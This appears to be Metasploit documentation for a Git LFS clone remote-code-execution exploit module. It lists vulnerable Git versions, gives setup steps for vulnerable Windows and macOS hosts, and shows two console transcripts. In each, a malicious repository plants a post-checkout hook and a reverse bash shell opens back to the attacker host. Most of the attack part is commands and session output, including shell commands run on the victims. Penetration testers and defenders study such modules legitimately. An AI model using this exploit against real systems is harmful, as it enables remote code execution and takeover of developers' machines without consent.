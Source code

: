 ## Vulnerable Application

Git clients that support delay-capable clean / smudge
filters and symbolic links on case-insensitive file systems are
vulnerable to remote code execution while cloning a repository.

Usage of clean / smudge filters through Git LFS and a
case-insensitive file system changes the checkout order
of repository files which enables the placement of a Git hook
in the `.git/hooks` directory. By default, this module writes
a `post-checkout` script so that the payload will automatically
be executed upon checkout of the repository.

Versions of Git below those in the following list are vulnerable:
              v2.17.6, v2.18.5,
              v2.19.6, v2.20.5,
              v2.21.4, v2.22.5,
              v2.23.4, v2.24.4,
              v2.25.5, v2.26.3,
              v2.27.1, v2.28.1,
              v2.29.3, v2.30.2

### Vulnerable Installation on Windows Setup

1. Download a vulnerable version of Git for Windows: [v2.30.1](https://github.com/git-for-windows/git/releases/download/v2.30.1.windows.1/Git-2.30.1-64-bit.exe)
2. On the `Select Components` section of the installer, make sure Git LFS is selected (should be by default)
3. Keep clicking `next` until reaching the `Configuring extra options` page, select `Enable symbolic links`, `next`, and then `Install`
4. Open Git Bash as Administrator and enter `export MSYS=winsymlinks:nativestrict`
5. You should now be able to run the exploit and get a session on Windows

### Vulnerable Installation on MacOS Setup

1. You can either download a vulnerable version from [here](https://git-scm.com/download/mac) or install via Xcode by typing `git` into the console
2. Install [Homebrew](https://brew.sh/)
3. Install Git LFS via Homebrew: `brew install git-lfs`
4. Setup Git LFS globally: `git lfs install`
5. You should now be able to run the exploit and get a session on MacOS

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/git_lfs_clone_command_exec`
4. Do: `run`
5. You should get a shell.

## Options

### GIT_URI

Sets the Git repository path. Leave empty for randomly-generated path.

## Scenarios

### Git `v2.20.1` on MacOS 10.14.6

```
msf > use exploit/multi/http/git_lfs_clone_command_exec
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/git_lfs_clone_command_exec) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(multi/http/git_lfs_clone_command_exec) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf exploit(multi/http/git_lfs_clone_command_exec) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf exploit(multi/http/git_lfs_clone_command_exec) > [*] Using URL: http://192.168.37.1:8080/haCxGmXm0G
[*] Server started.
[*] Git repository to clone: http://192.168.37.1:8080/flowdesk.git
[*] Sending payload data...
[*] Sending LFS object...
[+] Deleted .gitattributes
[+] Deleted vnmzvmgyddk
[+] Deleted .git
[*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49433) at 2021-07-12 11:35:47 -0500

msf exploit(multi/http/git_lfs_clone_command_exec) > sessions -i -1
[*] Starting interaction with 1...

uname -a
Darwin spaces-Mac.local 18.7.0 Darwin Kernel Version 18.7.0: Tue Aug 20 16:57:14 PDT 2019; root:xnu-4903.271.2~2/RELEASE_X86_64 x86_64
whoami
space
```

### Git `v2.29.0` on Windows 10

```
msf > use exploit/multi/http/git_lfs_clone_command_exec
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/git_lfs_clone_command_exec) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf exploit(multi/http/git_lfs_clone_command_exec) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(multi/http/git_lfs_clone_command_exec) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf exploit(multi/http/git_lfs_clone_command_exec) > [*] Using URL: http://192.168.37.1:8080/dA49tJWzH5Ye
[*] Server started.
[*] Git repository to clone: http://192.168.37.1:8080/otcom.git
[*] Sending payload data...
[*] Sending LFS object...
[+] Deleted .gitattributes
[+] Deleted nllefutt
[+] Deleted .git
[*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.1:61621) at 2021-07-12 11:32:30 -0500

msf exploit(multi/http/git_lfs_clone_command_exec) > sessions -i -1
[*] Starting interaction with 1...

uname -a
MINGW64_NT-10.0-19043 DESKTOP-2U9S1AD 3.1.7-340.x86_64 2020-09-22 19:03 UTC x86_64 Msys
```
